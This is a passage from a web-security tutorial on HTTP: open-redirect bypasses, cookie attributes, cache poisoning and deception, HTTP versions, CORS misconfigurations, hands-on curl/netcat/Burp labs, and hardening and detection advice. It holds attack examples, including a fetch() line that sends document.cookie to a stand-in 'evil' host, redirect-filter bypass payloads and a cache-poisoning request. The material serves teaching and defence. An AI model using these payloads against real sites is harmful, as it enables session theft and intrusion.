| `https:evil.com` | some parsers treat as `https://evil.com` |
| `/\evil.com` or `\/\/evil.com` | backslash normalization differs per parser |
| `https://evil.com%2f%2e%2e` | encoded path tricks partial validators |
| `https://trusted.com%00.evil.com` | null-byte truncation in weak parsers |

**Defense:** never redirect to a raw user-supplied absolute URL. Allowlist to a fixed set of
paths, or map an opaque token → server-known URL. If you must accept a URL, parse it with a real
URL parser and compare the **host** against an exact allowlist (not `startswith`), rejecting
userinfo, backslashes and scheme-relative forms.

```bash
# Detect: does the app follow a fully attacker-controlled Location?
curl -s -o /dev/null -w '%{http_code} -> %{redirect_url}\n' \
  'https://target/login?returnUrl=https://evil.example/'
```

```
302 -> https://evil.example/
```

That output — a 302 pointing straight at `evil.example` — is a confirmed open redirect.

---

## Part 8: Cookies and Set-Cookie — State Bolted onto a Stateless Protocol

Because HTTP is stateless, the server hands the client a token and asks it to send that token
back on every subsequent request. That token is a **cookie**. The server issues it with a
`Set-Cookie` response header; the browser stores it and echoes it in a `Cookie` request header.

```
HTTP/1.1 200 OK
Set-Cookie: session=8f3b...e1; Domain=example.com; Path=/; Secure; HttpOnly; SameSite=Lax; Max-Age=3600
```

```
GET /account HTTP/1.1
Host: example.com
Cookie: session=8f3b...e1
```

Every attribute on `Set-Cookie` is a security control. Learn all of them:

| Attribute | Meaning | Attack it prevents / enables |
|-----------|---------|------------------------------|
| `Secure` | Only sent over HTTPS | Missing → cookie leaks over cleartext HTTP (SSL-strip, sniffing) |
| `HttpOnly` | Hidden from `document.cookie` (JS) | Missing → XSS can steal the session cookie |
| `SameSite=Strict` | Never sent on cross-site requests | Strongest CSRF defense; can break legit cross-site nav |
| `SameSite=Lax` | Sent on top-level GET navigations only | Default in modern browsers; blocks most CSRF |
| `SameSite=None` | Sent cross-site (requires `Secure`) | Needed for legit cross-site cookies; re-opens CSRF surface |
| `Domain` | Which hosts receive it | Too broad → subdomain can read/set parent cookie |
| `Path` | Which paths receive it | Weak isolation only (not a security boundary) |
| `Max-Age` / `Expires` | Lifetime | Long-lived session tokens widen theft window |
| `__Host-` prefix | Forces Secure + Path=/ + no Domain | Hardens against subdomain/`Path` cookie attacks |
| `__Secure-` prefix | Forces Secure | Prevents insecure overwrite |

### The three cookie attacks you must be able to explain

1. **Cookie theft via XSS** — if a session cookie lacks `HttpOnly`, any XSS payload can do
   `fetch('https://evil/?c='+document.cookie)` and exfiltrate the session. `HttpOnly` is the
   single most important flag for session cookies.
2. **CSRF** — because browsers *auto-attach* cookies to any request to their domain, a malicious
   page can trigger a state-changing request that rides the victim's session. `SameSite=Lax/Strict`
   and CSRF tokens are the defenses. (Full CSRF treatment is its own chapter.)
3. **Session fixation** — if the app accepts a session ID chosen before login and doesn't
   regenerate it on authentication, an attacker who planted the ID inherits the logged-in
   session. **Defense:** always issue a fresh session ID at the privilege boundary (login).

**Cookie scoping subtlety (security-critical):** cookie `Domain` uses *domain-suffix* matching,
and cookies do **not** respect the same-origin policy's port/scheme strictness the way you might
expect. A cookie set with `Domain=example.com` is sent to `app.example.com`, `admin.example.com`
and any other subdomain — so a single XSS on a throwaway subdomain can set or read a cookie that
the main app trusts (**cookie tossing / subdomain takeover → session issues**). The `__Host-`
prefix defeats this by forbidding the `Domain` attribute entirely.



We go far deeper into sessions, tokens and stateful-vs-stateless auth in Chapter 3; here the
point is that cookies are *just headers*, and every attribute is a switch that turns an attack
on or off.

---

## Part 9: Caching — The Layer That Serves the Wrong Page to the Wrong Person

Caching stores a response so it can be reused without re-hitting the origin. Caches live in
many places: the browser, a corporate forward proxy, a CDN edge node, a reverse-proxy in front
of the app. Caching makes the web fast — and it makes two catastrophic bug classes possible:
**web cache poisoning** (attacker stores a malicious response that gets served to victims) and
**web cache deception** (attacker tricks the cache into storing a victim's private response).

### The headers that govern caching

| Header | Role |
|--------|------|
| `Cache-Control` | The master switch: `no-store`, `no-cache`, `private`, `public`, `max-age=N`, `s-maxage=N` |
| `Expires` | Legacy absolute expiry date (superseded by `max-age`) |
| `ETag` | Opaque version tag for a resource; enables conditional requests |
| `Last-Modified` | Timestamp version; enables conditional requests |
| `Vary` | Lists request headers that change the response → part of the **cache key** |
| `Age` | How long the cached copy has been stored |

`Cache-Control` directives you must know:

- `no-store` — never cache this at all (use on every authenticated/sensitive response).
- `no-cache` — may store, but must **revalidate** with the origin before serving.
- `private` — only the browser may cache, not shared caches (CDNs/proxies).
- `public` — any cache may store it.
- `max-age=N` — fresh for N seconds in private caches; `s-maxage=N` overrides for shared caches.

### Conditional requests — how revalidation actually works

Once a client has a cached copy with an `ETag`, it re-asks with `If-None-Match`; if unchanged
the server returns a bodyless `304 Not Modified` and the client reuses its copy:

```
GET /app.js HTTP/1.1
If-None-Match: "v13-abc"

HTTP/1.1 304 Not Modified          ← no body; reuse the cached bytes
ETag: "v13-abc"
```

The `Last-Modified` / `If-Modified-Since` pair works the same way with timestamps.

### The cache key — and why it is the whole ballgame

A cache decides "is this the same request I already have a response for?" by computing a **cache
key** — typically the method + host + path + query string, **plus** any headers named in `Vary`.
Headers *not* in the cache key are called **unkeyed**. The core insight of cache poisoning:

> If an **unkeyed** header influences the **response body**, an attacker can send that header,
> get a malicious response stored under the *normal* cache key, and every later victim requesting
> the normal URL receives the poisoned response.

Classic example — an app reflects `X-Forwarded-Host` into a `<script src>` but the cache does
not key on `X-Forwarded-Host`:

```
GET / HTTP/1.1
Host: victim.example
X-Forwarded-Host: evil.example      ← unkeyed, but reflected into the page
```

If the response body now contains `<script src="https://evil.example/x.js">` **and the cache
stores it**, every subsequent visitor to `/` loads attacker JavaScript. That is web cache
poisoning → mass XSS.

**Web cache deception** is the mirror image: the attacker lures a logged-in victim to
`https://victim.example/account/wallet.css`. The app ignores the fake `.css` suffix and serves
the victim's private *account* page, but the CDN — seeing a `.css` extension — caches it as a
static asset. The attacker then fetches `/account/wallet.css` themselves and reads the victim's
cached private data.



**Defense:** send `Cache-Control: no-store` (or at least `private`) on every dynamic,
personalized, or authenticated response; make the cache key include every header that affects
the body (or strip unkeyed inputs at the edge); never let a CDN cache by extension without
checking the real `Content-Type` and cacheability from the origin. **Blue team usage:** alert on
cache HITs for URLs that should always be personalized. **Bug-bounty note:** PortSwigger's Web
Security Academy cache-poisoning and cache-deception labs are the canonical training ground, and
`Param Miner` (a Burp extension) automates unkeyed-header discovery.

---

## Part 10: HTTP Versions — 1.0, 1.1, 2 and 3 (Same Semantics, Different Framing)

The *semantics* you have learned — verbs, headers, status codes, cookies — are identical across
HTTP versions. What changes is the **framing**: how those semantics are packed onto the wire.

| Version | Year | Transport | Framing | Multiplexing | Header compression |
|---------|------|-----------|---------|--------------|--------------------|
| HTTP/1.0 | 1996 | TCP | Text; one request per connection | No | None |
| HTTP/1.1 | 1997 | TCP | Text; keep-alive + pipelining | No (head-of-line blocked) | None |
| HTTP/2 | 2015 | TCP + TLS | **Binary** frames, streams | Yes (many streams / 1 TCP conn) | HPACK |
| HTTP/3 | 2022 | **QUIC/UDP** + TLS 1.3 | Binary frames | Yes (no TCP HOL blocking) | QPACK |

Key points and their security consequences:

- **HTTP/1.1 keep-alive & pipelining.** Connections are reused. Multiple requests can be in
  flight on one connection — which is exactly what makes request smuggling possible when two
  hops disagree on message boundaries.
- **HTTP/2 is binary and multiplexed.** Many logical "streams" share one TCP connection. There
  is no `Transfer-Encoding: chunked` in H2 (length is framed), which removes the classic CL.TE
  smuggling — but introduces **H2 downgrade smuggling** and **request tunnelling** when an H2
  front-end rewrites to H1 back-ends and mishandles header injection via H2's more permissive
  fields.
- **HTTP/2 pseudo-headers** (`:method`, `:path`, `:scheme`, `:authority`) replace the request
  line and `Host`. `:authority` is the H2 equivalent of `Host` — same host-header attack surface,
  new name.
- **HTTP/3 over QUIC** eliminates TCP head-of-line blocking and always uses TLS 1.3. From a
  bug-hunter's view the semantics and most header-level attacks carry straight over; the
  transport is different but the app-layer weaknesses (CORS, cookies, caching, redirects) are
  unchanged.

```bash
# See which version a site negotiates (curl picks the highest it and the server support):
curl -sI --http2 https://example.com/ | head -1     # HTTP/2 200
curl -sI --http3 https://cloudflare.com/ | head -1   # HTTP/3 200 (if curl built with HTTP/3)
curl -sI --http1.1 https://example.com/ | head -1    # force HTTP/1.1 to read raw text semantics
```

Forcing `--http1.1` is a standard move when you *want* the text framing — e.g. to hand-craft
smuggling probes or to read exactly which headers the origin emits without HPACK obscuring them.

---

## Part 11: CORS and the Same-Origin Policy — the Browser's HTTP Trust Rules

The **Same-Origin Policy (SOP)** is the browser's foundational rule: script from origin A may
read responses only from origin A. An **origin** is the triple `(scheme, host, port)` —
`https://app.example.com:443`. Change any one and it's a different origin. SOP is why an evil
page can *send* a request to your bank (CSRF) but cannot *read* the response.

**Cross-Origin Resource Sharing (CORS)** is the controlled exception: a server can opt in to
letting specific other origins read its responses, using response headers.

```
Access-Control-Allow-Origin: https://trusted-frontend.example
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Max-Age: 600
```

For "non-simple" requests (custom headers, `PUT`/`DELETE`, JSON content-type), the browser first
sends a **preflight** `OPTIONS` request asking permission; only if the response allows it does
the real request go out.



### The CORS misconfigurations that pay bounties

- **Reflecting the `Origin` header + `Allow-Credentials: true`.** If the server copies whatever
  `Origin` you send into `Access-Control-Allow-Origin` and also sets `Allow-Credentials: true`,
  *any* website can read the victim's authenticated responses. This is a high-severity account-data
  leak.
- **`Access-Control-Allow-Origin: *` with credentials.** The spec forbids `*` together with
  credentials, and browsers enforce it — but servers that *reflect* the origin sidestep the `*`
  rule and reach the same dangerous state.
- **Weak origin allowlist regex.** `^https://.*\.example\.com$` that forgets to anchor, or that
  matches `evil-example.com` or `example.com.evil.com`. Test suffix/prefix tricks just like open
  redirect.
- **`null` origin trusted.** Sandboxed iframes and some redirects send `Origin: null`; a server
  that allow-lists `null` can be attacked from a sandboxed iframe.

```bash
# Probe: does the API reflect an arbitrary Origin with credentials?
curl -s -I https://api.target.example/me \
  -H 'Origin: https://evil.example' | grep -i 'access-control-allow'
```

```
Access-Control-Allow-Origin: https://evil.example      ← reflected! 
Access-Control-Allow-Credentials: true                 ← + credentials = readable private data
```

That pair of lines is a confirmed, reportable CORS misconfiguration. **Defense:** never reflect
`Origin`; maintain a strict, exact-match allowlist; never combine a wildcard-ish policy with
`Allow-Credentials: true`; and remember CORS is *not* a CSRF defense — it controls *reading*
responses, not *sending* requests.

---

## Part 12: Hands-On Lab — Read and Forge HTTP by Hand

This lab uses only tools on Kali (or any Linux). It teaches four tools from scratch, then walks
a full request/response investigation. Nothing here touches a system you don't own — point it at
`http://httpbin.org`, a local container, or a lab target you are authorized to test.

### Tool 0: the toolbox, from zero

- **`curl`** — a command-line HTTP client. It sends one request and prints the response. The
  flags you will live in: `-v` (verbose, shows sent/received bytes), `-I` (HEAD only), `-i`
  (include response headers in output), `-s` (silent), `-X METHOD` (set verb), `-H 'H: v'` (add
  header), `-d 'data'` (POST body), `-b`/`-c` (send/save cookies), `-L` (follow redirects),
  `-o file`/`-w '%{...}'` (write body/format output), `--http1.1`/`--http2` (pin version).
  Install: preinstalled on Kali; else `sudo apt install curl`.
- **`nc` (netcat)** — a raw TCP/UDP swiss-army knife. `nc host port` opens a socket; whatever you
  type is sent verbatim. It does *zero* HTTP for you, which is the point — you write the protocol
  by hand. Install: `sudo apt install netcat-openbsd`.
- **`openssl s_client`** — netcat for TLS. `openssl s_client -connect host:443` gives you an
  interactive encrypted socket so you can hand-type HTTPS requests. Install: `sudo apt install openssl`.
- **`httpie`** (optional, friendlier): `http GET example.com`. Install: `sudo apt install httpie`.

### Step 1 — send a request and read every byte

```bash
curl -v http://httpbin.org/get 2>&1 | sed -n '1,25p'
```

```
> GET /get HTTP/1.1
> Host: httpbin.org
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Mon, 01 Jan 2024 00:00:00 GMT
< Content-Type: application/json
< Content-Length: 254
< Connection: keep-alive
< Server: gunicorn/19.9.0
< Access-Control-Allow-Origin: *
< Access-Control-Allow-Credentials: true
<
{
  "args": {},
  "headers": { "Host": "httpbin.org", "User-Agent": "curl/8.5.0" },
  "url": "http://httpbin.org/get"
}
```

Note that this demo server itself ships `Access-Control-Allow-Origin: *` with
`Access-Control-Allow-Credentials: true` — exactly the misconfiguration Part 11 warned about
(safe here because httpbin serves no private data, but a live example of the pattern).

### Step 2 — hand-type a raw HTTP/1.1 request over netcat

```bash
printf 'GET /get HTTP/1.1\r\nHost: httpbin.org\r\nUser-Agent: hand-typed\r\nConnection: close\r\n\r\n' \
  | nc httpbin.org 80
```

You will see the full raw response — status line, every header, blank line, JSON body. You just
spoke HTTP with no client library. Change `GET` to `HEAD` and observe: headers come back, body
does not.

### Step 3 — hand-type HTTPS with openssl

```bash
openssl s_client -connect httpbin.org:443 -quiet 2>/dev/null <<'REQ'
GET /headers HTTP/1.1
Host: httpbin.org
Connection: close

REQ
```

This performs the TLS handshake, then sends your literal request inside the encrypted tunnel and
prints the decrypted response. The `/headers` endpoint echoes back exactly what the server
received — proof of which headers actually crossed the wire.

### Step 4 — exercise verbs, status codes and redirects

```bash
# POST a JSON body and read how the server parsed it:
curl -s -X POST http://httpbin.org/post \
  -H 'Content-Type: application/json' \
  -d '{"user":"admin","role":"user"}' | grep -A3 '"json"'

# Force each status code and watch the family behavior:
for code in 200 301 302 401 403 404 429 500; do
  printf '%s -> ' "$code"
  curl -s -o /dev/null -w '%{http_code} %{redirect_url}\n' "http://httpbin.org/status/$code"
done

# Follow a redirect chain and print every hop:
curl -s -o /dev/null -L -w '%{url_effective} (%{http_code})\n' \
  'http://httpbin.org/redirect-to?url=http://httpbin.org/get'
```

Expected redirect-loop output shows the `Location` being followed and the final `200`.

### Step 5 — inspect and forge cookies

```bash
# Server sets a cookie; save it to a jar, then send it back:
curl -s -c jar.txt http://httpbin.org/cookies/set/session/abc123 -o /dev/null
cat jar.txt        # inspect the stored cookie
curl -s -b jar.txt http://httpbin.org/cookies      # echo cookies the server received
```

```
{ "cookies": { "session": "abc123" } }
```

Now forge one by hand — no jar, just a header — and prove the server can't tell the difference:

```bash
curl -s http://httpbin.org/cookies -H 'Cookie: session=forged-by-attacker'
```

```
{ "cookies": { "session": "forged-by-attacker" } }
```

This is the whole reason session tokens must be unguessable and integrity-protected: the client
fully controls the `Cookie` header.

### Step 6 — a header-posture audit script (drop-in for CI)

```bash
#!/usr/bin/env bash
# audit-headers.sh — flag missing security headers on a URL
url="${1:?usage: audit-headers.sh https://target}"
hdrs=$(curl -sSI "$url")
need=(strict-transport-security content-security-policy x-content-type-options \
      x-frame-options referrer-policy)
echo "== Security header audit for $url =="
for h in "${need[@]}"; do
  if grep -iq "^$h:" <<<"$hdrs"; then
    echo "[+] present : $h"
  else
    echo "[!] MISSING : $h"
  fi
done
# Flag risky cookie flags:
grep -i '^set-cookie:' <<<"$hdrs" | while read -r line; do
  grep -iq 'httponly' <<<"$line" || echo "[!] cookie without HttpOnly: $line"
  grep -iq 'secure'   <<<"$line" || echo "[!] cookie without Secure:   $line"
  grep -iq 'samesite' <<<"$line" || echo "[!] cookie without SameSite: $line"
done
```

```bash
chmod +x audit-headers.sh
./audit-headers.sh https://example.com
```

```
== Security header audit for https://example.com ==
[!] MISSING : strict-transport-security
[!] MISSING : content-security-policy
[!] MISSING : x-content-type-options
[!] MISSING : x-frame-options
[!] MISSING : referrer-policy
```

Real output like this on a production target is a ready-made "missing security headers" finding —
low severity alone, but a fast, honest first report and a base to chain from.

---

## Part 13: Intercepting and Editing HTTP — Burp Suite from Scratch

`curl` and `nc` are perfect for scripted, single requests. For *interactive* web testing you
want to sit between the browser and the server and edit traffic live. The standard tool is
**Burp Suite**.

**What it is:** Burp is an intercepting HTTP/S proxy plus a toolkit (Repeater, Intruder,
Scanner, Decoder, Comparer, extensions). Your browser sends traffic through Burp; Burp lets you
pause, read, and rewrite every request and response before it continues. The free Community
Edition covers everything in this chapter.

**Install (Kali):** preinstalled — launch from the menu or `burpsuite`. Elsewhere: download from
PortSwigger and run the installer / JAR.

**Core workflow, first run:**

1. Start Burp → *Temporary project* → *Use Burp defaults*.
2. **Proxy → Intercept** is on by default; Burp listens on `127.0.0.1:8080`.
3. Point your browser at that proxy. Easiest path: use Burp's bundled **Chromium** (Proxy → Open
   Browser) — it's pre-configured and its TLS trusts Burp's CA automatically.
4. To use your own browser over HTTPS, install Burp's CA certificate: browse to `http://burp` →
   *CA Certificate* → import it into the browser/OS trust store. Without this, HTTPS interception
   throws certificate errors (by design — Burp is a deliberate man-in-the-middle of *your own*
   traffic).

**The tools you'll use constantly:**

| Burp tool | What it does | Use it for |
|-----------|--------------|-----------|
| **Proxy → HTTP history** | Log of every request/response | See exactly what the app sends |
| **Repeater** | Edit one request and resend repeatedly | Manual testing of a single endpoint |
| **Intruder** | Automate a request with payload sets | Fuzzing params, brute force, enumeration |
| **Decoder** | Encode/decode URL, base64, hex, HTML | Craft/inspect payloads |
| **Comparer** | Diff two responses | Spot subtle differences (auth vs unauth) |
| **Extensions (BApp)** | Add capabilities (Param Miner, etc.) | Cache-key/unkeyed-header discovery |

**A concrete Repeater cycle:** browse the target through Burp, find the login request in HTTP
history, right-click → *Send to Repeater*. In Repeater you can now change the verb, add an
`X-Forwarded-Host: evil.example`, strip the CSRF token, replay with a different `Cookie`, or add
a second `Content-Length` — and watch the exact response each edit produces. This is how every
header lesson above becomes a live experiment.



**Red team usage:** Repeater is where you hand-craft the host-header, redirect, and CORS probes
from earlier parts against a real app. **Blue team usage:** the same HTTP history view, pointed at
your own app in staging, is a fast way to audit which headers your responses actually emit under
real routing (CDN + proxy + app), which often differs from what the app code intends.

---

## Part 14: Detection & Defense Angle — HTTP-Layer Hardening and Monitoring

Everything above has had inline offense/defense notes; this section consolidates the *defensive*
program for the HTTP layer, the way linux/02 consolidates hardening at the end.

### Server / proxy configuration hardening

- **Disable dangerous methods.** Turn off `TRACE`, `TRACK`, `CONNECT`, and `PUT`/`DELETE` unless a
  specific API requires them.

```nginx
# nginx: reject everything except the verbs you actually use
location / {
    limit_except GET POST HEAD { deny all; }
}
```

- **Emit the security-header baseline globally** (Part 5). In nginx:

```nginx
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
add_header Content-Security-Policy "default-src 'self'; object-src 'none'; frame-ancestors 'none'" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "DENY" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
```

The `always` keyword is essential — without it nginx omits the header on error responses, leaving
your 4xx/5xx pages unprotected.

- **Force `Cache-Control: no-store` on all authenticated/dynamic responses** so no shared cache
  can ever retain personalized data (kills cache deception).
- **Reject ambiguous framing.** Configure the front-end to reject requests that carry both
  `Content-Length` and `Transfer-Encoding`, and normalize / re-emit a single framing before
  forwarding — the front-line defense against request smuggling. Prefer HTTP/2 end-to-end so
  there is no H2→H1 rewrite seam.
- **Do not trust `X-Forwarded-*`, `Host`, `Origin`, or `Referer` as security facts.** Treat them
  as attacker input. Pin the canonical host server-side; validate `Origin` against an exact
  allowlist; never build security decisions on `Referer`.

### Cookie hardening checklist

```
Set-Cookie: __Host-session=<random>;
            Secure; HttpOnly; SameSite=Lax; Path=/
```

`__Host-` forces `Secure`, forbids `Domain` (no subdomain tossing), and pins `Path=/`. Regenerate
the session ID at every privilege change (login, step-up auth) to kill fixation.

### Detection — what to log and alert on

| Signal | Why it matters | Detection idea |
|--------|----------------|----------------|
| `TRACE`/`TRACK`/`CONNECT` requests | Legit browsers never send these | Alert on any occurrence |
| Requests with both `CL` and `TE` | Smuggling probe | WAF rule / proxy reject + alert |
| Bursts of `404`/`403` from one source | Content discovery / enumeration | Rate + entropy on path 404s |
| Repeated `Host`/`X-Forwarded-Host` mismatches | Host-header injection attempts | Compare to allowlist, log deltas |
| `Origin` reflected in `ACAO` for non-allowlisted origins | CORS abuse / misconfig | Response-header monitoring |
| Sudden cache `HIT` on personalized URL | Cache poisoning/deception | Vary/`Cache-Control` audit + hit logging |
| Spike in `302` to external `Location` | Open-redirect abuse in the wild | Egress-URL allowlist logging |

A minimal detection example over access logs (Combined Log Format):

```bash
# Flag any TRACE/CONNECT and any obvious host-header tampering in an access log:
awk '$6 ~ /"(TRACE|TRACK|CONNECT)/ {print "suspicious method:", $0}' access.log
grep -iE 'X-Forwarded-Host:|X-Host:' access.log   # if you log request headers
```

### WAF / edge as a layer, not a cure

A WAF can block obvious smuggling and injection probes and enforce header hygiene at the edge,
but it is a mitigation, not a fix — the underlying application must still validate input, scope
cookies, and control redirects. Defense in depth: fix the app, harden the server, monitor the
logs.

---

## Part 15: Final Revision / Summary

- **HTTP is a stateless, text-based request/response protocol** (binary framing in H2/H3, same
  semantics). Request = method + target + version + headers + blank line + optional body.
  Response = status line + headers + blank line + body.
- **Methods declare intent** and carry *safe*/*idempotent* properties. State-changing `GET`s are
  CSRF bait; `PUT`/`DELETE`/`TRACE`/`CONNECT` should be disabled unless needed; verb tampering
  bypasses method-scoped authorization.
- **Status codes group by first digit.** `401` = unauthenticated, `403` = unauthorized, and
  differential `403`/`404`/`200` responses are enumeration oracles.
- **Headers run everything.** `Host` is attacker-controlled and security-critical; `Content-Length`
  vs `Transfer-Encoding` is the seat of request smuggling; `X-Forwarded-*` is spoofable.
- **Redirects (`3xx` + `Location`)** are open-redirect surface; `307`/`308` preserve method+body.
  Validate targets against an exact host allowlist, never `startswith`.
- **Cookies are state bolted onto a stateless protocol.** `HttpOnly`, `Secure`, `SameSite`,
  `Domain`, and the `__Host-` prefix each turn an attack on or off. Regenerate session IDs on
  login to stop fixation.
- **Caching** turns unkeyed-header reflection into cache poisoning and extension-based caching
  into cache deception. `no-store` on personalized responses; key the cache on everything that
  affects the body.
- **SOP + CORS** govern cross-origin *reading*. Reflecting `Origin` with `Allow-Credentials: true`
  is a high-severity data leak. CORS is not a CSRF defense.
- **You can speak HTTP by hand** with `curl`, `nc`, and `openssl s_client`, and edit it live with
  Burp — the skill that turns every header lesson into a test you can run.

**Memory hook — "the blank line is the border."** Almost every high-impact HTTP bug (smuggling,
splitting, header injection) is a fight over where one message ends and the next begins. Find the
border disagreement and you find the bug.

---

## Part 16: Cheat Sheet / Quick Reference

**Raw request skeleton (HTTP/1.1):**

```
METHOD /path?query HTTP/1.1
Host: example.com
Header-Name: value

[optional body]
```

**Methods:** `GET` (safe/idempotent), `HEAD` (headers only), `POST` (create/process),
`PUT` (replace, idempotent), `PATCH` (partial), `DELETE` (remove, idempotent),
`OPTIONS` (capabilities/CORS preflight), `TRACE`/`CONNECT` (disable in prod).

**Status codes:** `200` OK · `201` Created · `204` No Content · `301/308` perm redirect ·
`302/307` temp redirect · `304` Not Modified · `400` bad request · `401` unauth · `403` forbidden ·
`404` missing · `405` method not allowed · `429` rate-limited · `500/502/503/504` server errors.

**Curl one-liners:**

```bash
curl -v URL                          # see raw sent/received bytes
curl -I URL                          # HEAD — headers only
curl -X POST -d 'a=1' URL            # POST form body
curl -H 'Header: v' URL              # add a header
curl -b 'session=x' URL              # send a cookie
curl -c jar -b jar URL               # save + reuse cookies
curl -L URL                          # follow redirects
curl -o /dev/null -w '%{http_code} %{redirect_url}\n' URL   # code + redirect target
curl --http1.1 -sI URL               # force text framing to read raw headers
printf 'GET / HTTP/1.1\r\nHost: h\r\nConnection: close\r\n\r\n' | nc h 80   # hand-typed
```

**Security-header baseline:** `Strict-Transport-Security`, `Content-Security-Policy`,
`X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, `Referrer-Policy`,
`Cache-Control: no-store` (sensitive), plus hardened `Set-Cookie`.

**Cookie flags:** `Secure` (HTTPS only) · `HttpOnly` (no JS) · `SameSite=Lax/Strict/None` (CSRF) ·
`Domain`/`Path` (scope) · `__Host-` prefix (lock it down).

**Header → bug map:** `Host`/`X-Forwarded-Host` → host injection & cache poison ·
`Content-Length`+`Transfer-Encoding` → request smuggling · `Location` → open redirect ·
`Set-Cookie` flags → session theft/CSRF · `Access-Control-Allow-Origin` reflection → CORS data
theft · reflected input in a response header → CRLF/response splitting · unkeyed header in body →
cache poisoning.

---

## Part 17: Common Pitfalls

- **Treating `Host`/`X-Forwarded-*`/`Referer`/`Origin` as trusted.** They are client input.
  Every "trust the header" assumption is a bug waiting to be found.
- **Using `startswith`/substring checks for redirect and CORS allowlists.** Always parse the URL
  and compare the exact host; reject userinfo (`@`), backslashes, and scheme-relative (`//`) forms.
- **Confusing `401` and `403`.** `401` = who are you (authenticate); `403` = I know you and no.
  Getting this wrong leaks whether resources exist.
- **Assuming POST is "safe" from CSRF.** Only `SameSite` cookies and/or CSRF tokens make it safe;
  the verb alone doesn't.
- **Caching authenticated responses.** Any personalized response without `no-store`/`private` is a
  cache-deception waiting to happen.
- **Forgetting `always` on nginx `add_header`.** Security headers silently vanish on error pages.
- **Believing HTTP/2 killed request smuggling.** It relocated it — H2→H1 downgrade and request
  tunnelling are alive and well.
- **Putting secrets in query strings.** They leak via logs, history, and `Referer`.

---

## Part 18: Practice Labs & Resources

Train each concept from this chapter on a purpose-built, legal target:

- **PortSwigger Web Security Academy** (free, browser-based, the gold standard for HTTP-layer bugs):
  - *HTTP Host header attacks* — password-reset poisoning, routing-based SSRF, cache poisoning via Host.
  - *Web cache poisoning* — unkeyed headers, cache-key injection, `Param Miner` workflow.
  - *Web cache deception* — the extension/path-confusion labs.
  - *HTTP request smuggling* — CL.TE, TE.CL, TE.TE, and H2 downgrade labs (do these after the
    dedicated smuggling chapter, but skim them now to see framing in action).
  - *CORS* — reflected-origin-with-credentials and `null`-origin labs.
  - *OAuth / open redirect* — `redirect_uri` and open-redirect chaining labs.
- **httpbin.org** / a local `kennethreitz/httpbin` container — a safe echo server for every
  `curl`/`nc`/`openssl` drill in Part 12 (verbs, status codes, cookies, redirects, headers).
- **OWASP Juice Shop** — a deliberately vulnerable app to hunt cookie/CORS/header bugs end to end
  with Burp.
- **TryHackMe** — *HTTP in Detail*, *Burp Suite* (Basics/Repeater/Intruder), and *OWASP Top 10*
  rooms cover exactly this material hands-on.
- **HackTheBox** — starting-point/very-easy web boxes exercise method enumeration, redirects, and
  cookie handling against realistic targets.
- **Tooling to learn alongside:** Burp Suite (Repeater, Intruder, Decoder, Comparer, `Param Miner`
  and `HTTP Request Smuggler` extensions), `ffuf`/`feroxbuster` for status-code-oracle content
  discovery, and `curl`/`httpie` for scripted checks.

**Practice questions / mini-labs to self-test:**

1. Given a login that emails a reset link built from the `Host` header, write the exact request
   that poisons the link to point at your server, and explain which single server-side change kills
   the bug.
2. An endpoint returns `403` on `GET /admin` but `200` on `HEAD /admin`. Explain the class of
   vulnerability, why it happens, and how you'd confirm data actually leaks.
3. A CDN caches by URL only; the origin reflects `X-Forwarded-Host` into a `<script src>`. Craft
   the poisoning request and describe the blast radius, then give the two independent fixes (one at
   the cache, one at the origin).
4. Show three redirect payloads that defeat a `returnUrl.startswith("https://trusted.com")` filter,
   and write the correct validation in pseudocode.
5. Using only `curl`, demonstrate that a server reflects an arbitrary `Origin` with
   `Access-Control-Allow-Credentials: true`, and explain precisely what an attacker page can now do
   that the Same-Origin Policy would otherwise forbid.
